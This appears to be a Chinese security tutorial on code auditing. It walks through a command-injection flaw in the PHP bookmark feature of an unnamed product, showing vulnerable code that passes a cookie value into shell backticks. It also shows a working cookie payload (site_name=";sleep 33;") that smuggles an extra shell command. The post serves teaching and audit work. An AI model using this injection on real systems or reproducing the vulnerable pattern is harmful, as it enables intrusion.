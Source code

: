 #  手把手教你学会代码审计之命令注入漏洞  
原创 uuwan  SecurityBug   2025-07-18 16:01  
  
# 本文由作者uuwan原创，禁止转载。      请点击文末#代码审计标签查看合集，或者关注公众号点击底部【源码审计】子菜单，如果对您有帮助还请点赞、在看、评论、转发、关注、打赏哦，您的互动就是我更新最大的动力！  
  
  
    已知X产品bookmark即书签功能中存在命令注入漏洞，但是无法得知攻击者的攻击方式。  
  
    登录X产品操作系统后台  
  
```
find / -name "*bookmark*"
```  
  
    找到了关键文件bookmark.php和paaa.php  
  
    下文仅展示关键代码，可以不看后面的解析，给自己五分钟的时间分析一下命令注入漏洞的位置。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25KuiaqKRhS6wgDF15zERia7nyhNjcIQKMicaqxLT5PiaZCaeVEqQ9doGH0EwCA/640?wx_fmt=png&from=appmsg "")  
  
```
bookmark.php
<?php
    include_once "bookmark_db.php";
    require_once(dirname(__FILE__).'/'."../paaa.php");
    $dbname = $_COOKIE['site_name'];
    $uname = $_COOKIE['user_name'];
    $role_names = $_COOKIE['roles'];
    $action = $_REQUEST['action'];
    if(!$dbname || !$uname || !$action){
        exit("action is null!");
    }
    $cmd = 'bookmark status'; 
    $mycli = new cli(); 
    //此处调用了cmd_direct函数
    $cli_res = $mycli->cmd_direct($cmd, $dbname);
    $dbname  = "auth_" . $dbname;
    $db_conn = new MP\DB\BookMark_db($dbname);

if($action == 'add') {
        $url = $_POST['url'];
        $type = $_POST['type'];
        $desc = $_POST['description'];
        if(!$url || !$desc){
            exit("url/description is null!");
        }
        header("Content-Type: text/html");
        if($db_conn->sql_inj($desc) || $db_conn->sql_inj($url) || !is_numeric($type)) {
            echo "Fail to add the bookmark!";
        }
        $res = $db_conn->addBookMarkCheck($uname,$url,$type,$desc);
        if($res){
            $cmd = 'sync sql "insert into tbl_bookmark(url,type,user_name,description) values(&'.
                $url.'&,'.$type.',&'.$uname.'&,&'.$desc.'&)"';
            $mycli = new cli();
            //此处调用了cmd_direct函数
            $cli_res = $mycli->cmd_direct($cmd , $_COOKIE['site_name']);
            if($cli_res["result"]){
                echo "add successfully!";
                echo "<script>history.go(-2);</script>";
            } else {
                echo "Fail to add the bookmark!";
            }
        }else{
            echo "Fail to add the bookmark! One user only can own 100 bookmarks.";
        }
    } else {
        exit("invalid action");
    }
?>
```  
  
```
paaa.php
<?php
    function cmd_direct($cmd, $shell)
    {
        global $debugLog ;
        global $logFile;
        if ($debugLog) {
            $t_fileRef = fopen($logFile,'a');
            fwrite($t_fileRef, "\t" . $cmd . "\n");
        }
        if(empty($shell)||!isset($shell)){
            $shell = "global";
        }
        $f_eop = chr(252); 
        $cmd .= $f_eop;
        $cmd = escapeshellarg($cmd);
        //反引号`在php中可以执行命令
        $output = `/ca/bin/backend -s "$shell"  -c $cmd`;
        $output = trim($output, $f_eop);

        if ($debugLog) {
            $t_fileRef = fopen($logFile,'a');
            fwrite($t_fileRef, "\t" . $output . "\n");
        }
        $output = backend_format($output);
        $json = json_decode($output,true);
        if(!$json){
            return $output;
        }
        return foreach_trim($json);
    }
?>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25KuiaVRtGwQWURtd7a043PNjRVXflKHpcLDJhwXJVecr2B2apFxlu1HiakRg/640?wx_fmt=png&from=appmsg "")  
  
    此处我们开始解析。  
  
    我们可以看到paaa.php中有一个明显的漏洞。  
  
```
反引号``在php中可以执行命令,也是命令注入代码审计的关键函数
传参$cmd和参数$shell都可以传入反引号中被执行。
也就是说这个函数cmd_direct可以进行命令注入。
```  
  
```
function cmd_direct($cmd, $shell)
{
    $output = `/ca/bin/backend -s "$shell"  -c $cmd`;
}

```  
  
    再看下bookmark.php中有两处调用了cmd_direct()  
```
第15行     
$cli_res = $mycli->cmd_direct($cmd, $dbname);
第36行
if($action == 'add') 
{
    $cli_res = $mycli->cmd_direct($cmd , $_COOKIE['site_name']);
}

经过分析第15行处的命令注入更容易触发。
这里是一个经验点，这处的行数靠前，经过的代码少。
所以保证了它更容易被执行到。
我们取出前15行进行分析。

此处是一个require_once函数，
它可以把paaa.php中的代码包含在bookmark.php中
通俗的来说，也就是此时在bookmark.php中
可以调用paaa.php的全部代码包含参数和函数
聪明的你一定意识到了，正是因为有这个require_once函数
我们才可以在bookmark.php中调用paaa.php中的cmd_direct()函数
从而形成命令执行。

require_once(dirname(__FILE__).'/'."../paaa.php");
$dbname = $_COOKIE['site_name'];
//$_COOKIE获取cookie中参数site_name的值
$uname = $_COOKIE['user_name'];
$role_names = $_COOKIE['roles'];
//$_REQUEST获取cookie、get、post请求中参数action的值
$action = $_REQUEST['action'];

要确保代码能执行到cmd_direct()，那这块的if条件一定不能满足
如果满足了，bookmark.php的执行就会在exit处跳出结束。
也就是说dbname和uname和action一定得有参数值
if(!$dbname || !$uname || !$action){
        exit("action is null!");
}
$cmd = 'bookmark status'; 
$mycli = new cli(); 
//此处调用了cmd_direct函数
$cli_res = $mycli->cmd_direct($cmd, $dbname);
```  
  
我们用burpsuite抓住一个正常的编辑书签的请求。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuiagmmk5TLloWRO5JsyZElticzpgdUTibibtlDg6jXIkTHT4vrL8vZGVUdtg/640?wx_fmt=png&from=appmsg "")  
  
    可以看到此时action是有值的，但是cookie中并没有参数user_name和参数site_name  
  
    所以正常发送的请求肯定会因为不满足存在参数值，而退出exit，进而无法走到cmd_direct函数中。  
  
    那很简单了！  
  
    我们在cookie中增加两个参数user_name=aaa;site_name=bbb;  
```
$cmd = 'bookmark status'; 
$mycli = new cli(); 

//此时我们成功调用了cmd_direct函数
//cmd的值是固定的bookmark status
//那么我们只能在dbname中进行命令注入

$cli_res = $mycli->cmd_direct($cmd, $dbname);
进入cmd_direct函数
 function cmd_direct($cmd, $shell)
{
    $output = `/ca/bin/backend -s "$shell"  -c $cmd`;
}

$dbname = $_COOKIE['site_name'],我们只需要构造site_name=";sleep 33;"
`/ca/bin/backend -s "$shell"  -c $cmd`;
就变成下文的样子
`/ca/bin/backend -s "";sleep 33;""  -c bookmark status`;
这样子就可以成功执行命令啦！
实际操作中我们对site_name的值进行url编码
因为cookie的值在后端后被自动url解码
site_name=%22%3bsleep+3322%3b
```  
  
最终的攻击包如下图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuia4NibbQHAIvrF3ibsXSC6Ft3FHwTHjibUeptdv6S9GV2VqP3fkic2jaYUibg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuiac3RycoFZ8TGYIfiaAymM6TSazVFmkUdCWibYHPbvt6lU6ZmWSzIJYu6A/640?wx_fmt=png&from=appmsg "")  
  
这就是复现命令注入的全过程啦  
  
是不是很简单呢。  
  
[#代码审计]()  
 [#漏洞教学]()  
  
  
